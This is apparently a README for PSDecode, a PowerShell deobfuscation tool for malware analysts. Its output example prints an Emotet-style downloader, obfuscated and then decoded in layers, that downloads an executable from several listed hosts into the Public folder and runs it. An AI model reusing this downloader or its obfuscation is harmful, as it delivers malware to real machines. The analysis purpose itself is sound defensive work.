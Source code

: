 # PSDecode
This is a PowerShell script for deobfuscating other encoded PowerShell scripts. Often, malicious PowerShell scripts have several layers of encodings  (Replace, Base64Decode, etc...) that, once decoded, are executed via a call to Invoke-Expression (IEX, &, .), Invoke-Command, etc... This script employs a technique called method overriding that enables us to essentially intercept calls to functions that I have accounted for within this script and print out the arguments being passed to it (a.k.a what the script was trying to execute).

** Important Note #1: Only run this script within an isolated sandbox. If the encoded powershell attempts to execute a function which I have not accounted for, there is a chance it could execute**

** Important Note #2: The default execution policy for PowerShell is Restricted and if you dont use PowerShell a lot, chances are when you go to run this script, it will give you an error stating "PSDecode cannot be loaded because the execution of scripts is disabled on this system". If you receive this message, you'll need to change you execution policy to Unrestricted either temporarility or permanantly. The simplest way is to open a PowerShell command prompt as Administrator and run: set-executionpolicy unrestricted**

# To Use
1. Copy PSDecode.psm1 into $PSHome\Modules\
2. Open a new instance of PowerShell
3. Option #1 [Pass encoded PowerShell via File]:
<pre> > PSDecode .\encoded_ps.ps1</pre>
or if the malicious script is Unicode:
<pre> > PSDecode .\uencoded_ps.ps1 -u</pre>
4. Option #2 [Pass encoded PowerShell via PIPE]:
<pre> > Get-Content .\encoded_ps.ps1 | PSDecode </pre>

# Optional Parameter
  -u: Default file encoding expected is ASCII. This switch tells PSDecode that the script being decoded is Unicode encoded.

# Output Example
```PowerShell
############################## Layer 1 ##############################
&( $vERBOSEprefeRENCE.TOstRInG()[1,3]+'x'-jOiN'')(('. ((VAriAble rAb*m'+'DR*rAb)'+'.namE[3,11,'+'2]-joiNrAbrAb) ( (rAb ((8mrAb+rAb6o4Vfranc r'+'Ab+rAb8m6+8m6=rAb+rAb new-8m6'+'+8m6obj8m6+8m6ec
rAb+rAbt SysrAb+rAbt8m6+8m6em.Ne'+'t'+'.We8m6rAb+rAb+8m6bCli8m6+8m6enrAb+rAbt8rAb+rAbm6+8m6;8m6+8m6o4Vnsa8m6+8m6dasd 8m6+'+'8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'rAb+rAb8mrAb+rAb6random;
o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6'+'-8m6+8m6soft.pl/w8m6+8m6ef3rAb+rAb8m6+8m64668m6+8m6'+'48m6+8rAb+rAbm658m6+8m6,htt8m6+8mrAb+rAb6p8m6+8m6:rAb+rAb8m6+8
m6/'+'8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/wrAb+rAb8m6'+'+8m6efrAb+rAb348m6+8m666458m'+'6+8m6,htt8m6+8mrAb+rAb6prAb+rAb://8m6+'+'8m6truhlarstvi-be8m6+8m6'+'zd8m6+8m'+'6eka8m6+
8rAb+rA'+'bm6.c8m6+8rAb+rAbm6z/wef346645,h8m6+8m6ttrAb+rAb8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8mrAb+rAb6+8m6lit(H8m6+8m6a6,H8rAb+rAbm6+8m6a6'+')8m6
+8rAb+r'+'Abm6;8m6+8m6o4V8m6+8m6kara8m6+8m6pas = o8m6+8m64'+'Vns8m6+8m6adasd.next(18m6+8m6,rAb+rA'+'b 38m6+8m6rAb+rAb43248m6+8m658m6+8mrAb+rAb6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6rAb+r
Ab+8m6 Ha61U8m6+8m6nH'+'8m6'+'+8m6a6 +rAb+rAb o48m6+8m6Vkar'+'8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha'+'8m6+8m668m6+8m6;8m6rAb+rAb+8m6for8m6+8m6ea'+'c8m6+8m6h(o8m6+8m64VrAb+rAbab8m6+8m6c 
in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){'+'8m6+8m6try{o48m6+8m6'+'V8m6+8m6f8m6+8m6r8m6'+'+8m6a8m6+8m6n8m'+'6r'+'Ab+rAb+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8rAb+rAbm6c8m6+8m6.TrAb+rAboSt8m6+8m6r8m
6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+'+'8m6br8m6+8m6eak;}catch8m6'+'+8m6{wrrAb'+'+rAb8m6+'+'8m6i8m6+8m6te8m6+8m6-host'+' rAb+rAbo48rAb+rAbm6'+'+8m6V
_.Ex8m6+8m6c'+'e8m6+8m6pt8'+'m6+8rAb+rAbm6ion8m6'+'+8m6.MrAb+rAb8m6+8m6es8m6+8mrAb+rAb6rAb+'+'rAbsa8m6+8m6g8m6+8m'+'6e;}}8'+'m6'+')-CREpLACE 8m61Un8m6'+','+'[chaR]92 -CrA'+'b'+'+rAbREprAb+rAbL
ACE([chaR]111+[chaR]52+[chaR]86)'+',[cha'+'R]36 -CR'+'EpLACE ([chrAb+rAbaR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe rAb+rAb8m6*MDR*8m6).Name[3,11,2]'+'-JoIn8m68m6)rAb).rEpLA'+'Ce(([
'+'c'+'har]5'+'6+[char]109+[c'+'har]54),[StRiNG][char]39).rE'+'pLAC'+'e(rAbf5BrAb,[StRiNG][char]124) ) ').rEPLAcE('rAb',[StRING][ChAr]39) )


############################## Layer 2 ##############################
. ((VAriAble '*mDR*').namE[3,11,2]-joiN'') ( (' ((8m'+'6o4Vfranc '+'8m6+8m6='+' new-8m6+8m6obj8m6+8m6ec'+'t Sys'+'t8m6+8m6em.Net.We8m6'+'+8m6bCli8m6+8m6en'+'t8'+'m6+8m6;8m6+8m6o4Vnsa8m6+8m6das
d 8m6+8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'8m'+'6random;o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6-8m6+8m6soft.pl/w8m6+8m6ef3'+'8m6+8m64668m6+8m648m6+8'+'
m658m6+8m6,htt8m6+8m'+'6p8m6+8m6:'+'8m6+8m6/8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/w'+'8m6+8m6ef'+'348m6+8m666458m6+8m6,htt8m6+8m'+'6p'+'://8m6+8m6truhlarstvi-be8m6+8m6zd8m6+8m6
eka8m6+8'+'m6.c8m6+8'+'m6z/wef346645,h8m6+8m6tt'+'8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8m'+'6+8m6lit(H8m6+8m6a6,H8'+'m6+8m6a6)8m6+8'+'m6;8m6+8m6o4V8
m6+8m6kara8m6+8m6pas = o8m6+8m64Vns8m6+8m6adasd.next(18m6+8m6,'+' 38m6+8m6'+'43248m6+8m658m6+8m'+'6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6'+'+8m6 Ha61U8m6+8m6nH8m6+8m6a6 +'+' o48m6+8m6Vka
r8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha8m6+8m668m6+8m6;8m6'+'+8m6for8m6+8m6eac8m6+8m6h(o8m6+8m64V'+'ab8m6+8m6c in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){8m6+8m6try{o48m6+8m6V8m6+8m6f8m6+8m6
r8m6+8m6a8m6+8m6n8m6'+'+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8'+'m6c8m6+8m6.T'+'oSt8m6+8m6r8m6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+8m6br8m6+8m6eak;}catc
h8m6+8m6{wr'+'8m6+8m6i8m6+8m6te8m6+8m6-host '+'o48'+'m6+8m6V_.Ex8m6+8m6ce8m6+8m6pt8m6+8'+'m6ion8m6+8m6.M'+'8m6+8m6es8m6+8m'+'6'+'sa8m6+8m6g8m6+8m6e;}}8m6)-CREpLACE 8m61Un8m6,[chaR]92 -C'+'REp'
+'LACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([ch'+'aR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe '+'8m6*MDR*8m6).Name[3,11,2]-JoIn8m68m6)').rEpLACe(([char]56+[char]109+[cha
r]54),[StRiNG][char]39).rEpLACe('f5B',[StRiNG][char]124) ) 


############################## Layer 3 ##############################
 (('o4Vfranc '+'= new-'+'obj'+'ect Syst'+'em.Net.We'+'bCli'+'ent'+';'+'o4Vnsa'+'dasd '+'= n'+'e'+'w-'+'object '+'random;o4Vb'+'c'+'d = Ha6ht'+'t'+'p:'+'//s'+'mart'+'-'+'soft.pl/w'+'ef3'+'466'+
'4'+'5'+',htt'+'p'+':'+'/'+'/chimach'+'i'+'n'+'eno'+'w.com/w'+'ef34'+'6645'+',htt'+'p://'+'truhlarstvi-be'+'zd'+'eka'+'.c'+'z/wef346645,h'+'tt'+'p'+'://'+'er'+'icajoy.co'+'m/'+'wef346'+'645Ha6
.Sp'+'lit(H'+'a6,H'+'a6)'+';'+'o4V'+'kara'+'pas = o'+'4Vns'+'adasd.next(1'+', 3'+'4324'+'5'+');o4Vhuas = o4Ve'+'nv:p'+'ublic +'+' Ha61U'+'nH'+'a6 + o4'+'Vkar'+'apas '+'+ Ha6.e'+'xe'+'Ha'+'6'+'
;'+'for'+'eac'+'h(o'+'4Vab'+'c in '+'o4'+'Vb'+'c'+'d){'+'try{o4'+'V'+'f'+'r'+'a'+'n'+'c.Downlo'+'adFile(o4Vab'+'c'+'.ToSt'+'r'+'in'+'g('+')'+', o4'+'Vhua'+'s);Invoke-Item(o4Vhuas);'+'br'+'eak;
}catch'+'{wr'+'i'+'te'+'-host o4'+'V_.Ex'+'ce'+'pt'+'ion'+'.M'+'es'+'sa'+'g'+'e;}}')-CREpLACE '1Un',[chaR]92 -CREpLACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([chaR]72+[chaR]97+[chaR]
54),[chaR]39) | &((GeT-VaRIAbLe '*MDR*').Name[3,11,2]-JoIn'')


############################## Layer 4 ##############################
$franc = new-object System.Net.WebClient;$nsadasd = new-object random;$bcd = 'http://smart-soft.pl/wef346645,http://chimachinenow.com/wef346645,http://truhlarstvi-bezdeka.cz/wef346645,http://e
ricajoy.com/wef346645'.Split(',');$karapas = $nsadasd.next(1, 343245);$huas = $env:public + '\' + $karapas + '.exe';foreach($abc in $bcd){try{$franc.DownloadFile($abc.ToString(), $huas);Invoke
-Item($huas);break;}catch{write-host $_.Exception.Message;}}


############################## Actions ##############################
1. [System.Random] Generate random integer between 1 and 343245 . Value returned: 92672
2. [System.Net.WebClient.DownloadFile] Download from: http://smart-soft.pl/wef346645
3. [System.Net.WebClient.DownloadFile] Save downloaded file to: C:\Users\Public\92672.exe
4. [Invoke-Item] Execute/Open: C:\Users\Public\92672.exe
```
# Change Log
* 2018.06.05
  * Included -u switch that users will need to specify if the powershell script they are attempting to decode is Unicode encoded.
  * Updated script to properly handle the presence of whitespace characters wrapped in quotes.
* 2018.05.30
  * Added better handling of double quotes during script building to eliminate hard failure.
  * Implemented replace function to replace the string concatenation '+' that could be found within a malicious script with an empty string. Eliminates simple obfuscation in layer output.
* 2018.03.20 - updated script to account for changes made to newest version of Emotet's encoding scheme
